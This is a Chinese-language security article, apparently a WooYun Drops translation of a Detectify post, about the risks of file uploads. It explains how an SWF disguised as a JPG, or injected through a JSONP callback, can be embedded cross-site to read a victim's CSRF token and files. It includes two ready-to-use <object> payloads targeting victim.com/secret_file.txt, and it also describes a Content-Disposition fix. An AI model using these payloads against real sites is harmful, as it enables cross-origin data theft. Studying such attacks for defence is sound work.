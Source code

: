 # 上传文件的陷阱

2014/05/22 12:02 | [/fd](http://drops.wooyun.org/author//fd "由 /fd 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

现在很多网站都允许用户上传文件，但他们都没意识到让用户（或攻击者）上传文件（甚至合法文件）的陷阱。

什么是合法文件？

通常，判断文件是否合法会透过两个参数：文件后缀（File extension）及 Content-Type。

例如，网站会确保后缀是 jpg 及 Content-Type 是 image/jpeg 以防止恶意文件，对不？

但一些像 Flash 的插件程序并不关心后缀及 Content-type。假如一个文件被标签嵌入，它会像 Flash 一样执行，只要它的内容像个 Flash 文件。

但等等，Flash 不是应该只在同域下被嵌入才会执行？亦对亦错。假如一个 Flash 文件（或以图像包装的 Flash 文件）在 victim.com 上传然后于 attacker.com 下嵌入，它只能在 attacker.com 下执行 JavaScript。但是，假如该 Flash 文件发出请求，那么它可以读取到 victim.com 下的文件。

这说明了若不检查文件内容而直接上传，攻击者可以绕过网站的 CSRF 防御。

## 0x01 攻击

* * *

基于上面我们可以想像一种攻击场境：

```
1\. 攻击者建立一个恶意 Flash(SWF)文件  
2\. 攻击者更改文件副档名为 JPG  
3\. 攻击者上传档案到 victim.com  
4\. 攻击者在 attacker.com 以标签及 application/x-shockwave-flash 类型嵌入该文件  
5\. 受害者浏览 attacker.com，并以 SWF 格式载入该文件  
6\. 攻击者现在可以透过该 SWF 并以受害者的 session 向 victim.com 发出及接收任意请求  
7\. 攻击者向 victim.com 发出请求后取得受害者的 CSRF token 
```

payload 会像这样

```
<object style="height:1px;width:1px;" data="http://victim.com/user/2292/profilepicture_jpg.jpg" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=read&u=http://victim.com/secret_file.txt"></object> 
```

## 0x02 修补

* * *

好消息是有一个相对简单的方法防止该 Flash 的行为。 Flash 若看到文件返回下面的 Content-Disposition header 就不会执行：

```
Content-Disposition: attachment; filename="image_jpg.jpg" 
```

所以若允许上传或输出任意数据，网站应该总是检查内容是否合法而且尽可能返回`Content-Disposition header`。

## 0x03 其他用途

* * *

实际上，该攻击不只限制于文件上传。该攻击只要求攻击者能够控制域名下的数据（不论 Content-Type），因此还有其他实施攻击的方法。

其中一种是利用 JSONP 接口。通常，攻击者可以透过更改 callback 参数控制 JSONP 接口的输出。然而，攻击者可以把整个 Flash 文件的内容作为 callback 参数，而达到与上载文件无异的攻击。 Payload 会像这样：

```
<object style="height:1px;width:1px;" data="http://victim.com/user/jsonp?callback=CWS%07%0E000x%9C%3D%8D1N%C3%40%10E%DF%AE%8D%BDI%08%29%D3%40%1D%A0%A2%05%09%11%89HiP%22%05D%8BF%8E%0BG%26%1B%D9%8E%117%A0%A2%DC%82%8A%1Br%04X%3B%21S%8C%FE%CC%9B%F9%FF%AA%CB7Jq%AF%7F%ED%F2%2E%F8%01%3E%9E%18p%C9c%9Al%8B%ACzG%F2%DC%BEM%EC%ABdkj%1E%AC%2C%9F%A5%28%B1%EB%89T%C2Jj%29%93%22%DBT7%24%9C%8FH%CBD6%29%A3%0Bx%29%AC%AD%D8%92%FB%1F%5C%07C%AC%7C%80Q%A7Nc%F4b%E8%FA%98%20b%5F%26%1C%9F5%20h%F1%D1g%0F%14%C1%0A%5Ds%8D%8B0Q%A8L%3C%9B6%D4L%BD%5F%A8w%7E%9D%5B%17%F3%2F%5B%DCm%7B%EF%CB%EF%E6%8D%3An%2D%FB%B3%C3%DD%2E%E3d1d%EC%C7%3F6%CD0%09" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=alert&u=http://victim.com/secret_file.txt"></object> 
```

from: http://blog.detectify.com/post/86298380233/the-pitfalls-of-allowing-file-uploads-on-your-website

版权声明：未经授权禁止转载 [/fd](http://drops.wooyun.org/author//fd "由 /fd 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)
*   [【.NET 小科普之一】数据库信息在哪儿](http://drops.wooyun.org/tips/975)
*   [Nginx 安全配置研究](http://drops.wooyun.org/tips/1323)
*   [深入了解 SQL 注入绕过 waf 和过滤机制](http://drops.wooyun.org/tips/968)
*   [生物特征识别之指纹识别，伪造，指纹设备缺陷设计](http://drops.wooyun.org/tips/2140)